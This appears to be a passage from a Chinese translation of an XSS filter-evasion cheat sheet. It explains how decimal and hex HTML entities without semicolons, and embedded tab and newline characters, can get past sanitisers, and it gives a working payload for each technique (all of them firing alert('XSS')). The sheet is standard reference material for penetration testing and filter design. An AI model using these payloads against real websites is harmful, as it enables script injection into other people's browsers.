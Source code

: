 结尾没有分号的十进制html编码引用
------------------

他是经常有用的在绕过寻找"&#XX;"格式的xss过滤，因为大多数人不知道最多允许7位字符的编码限制。这也是有用的对那些对字符串解码像$tmp_string =~ s/._\&#(\d+);._/$1/; ,错误的认为一个html编码需要用;去结束。（我是无意中发现）

```
<IMG SRC=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041>

```

* * *

结尾没有分号的十六进制html编码引用
-------------------

这也是一种实用的xss攻击针对上文的$tmp_string =~ s/._\&#(\d+);._/$1/; ，错误的认为数字编码跟随在#后面（十六进制htnl编码并非如此），。使用 XSS[Calculator](http://ha.ckers.org/xsscalc.html)获取更多信息。

```
<IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>

```

* * *

内嵌TAB
-----

用来分开xss攻击代码

```
<IMG SRC="jav   ascript:alert('XSS');">

```

* * *

内嵌被编码的TAB
---------

用来分开xss攻击代码

```
<IMG SRC="jav&#x09;ascript:alert('XSS');">

```

* * *

内嵌换行符去分开xss代码
-------------

一些网站声称09-13编码的所有字符（十进制）都可以实现这种形式的攻击。这是不正确的。只有09(tab), 10 (换行) 和 13 (回车)可以使用。查看ascii表为更详细的信息。下面四个xss例子展示了这个向量。

```
<IMG SRC="jav&#x0A;ascript:alert('XSS');">

```

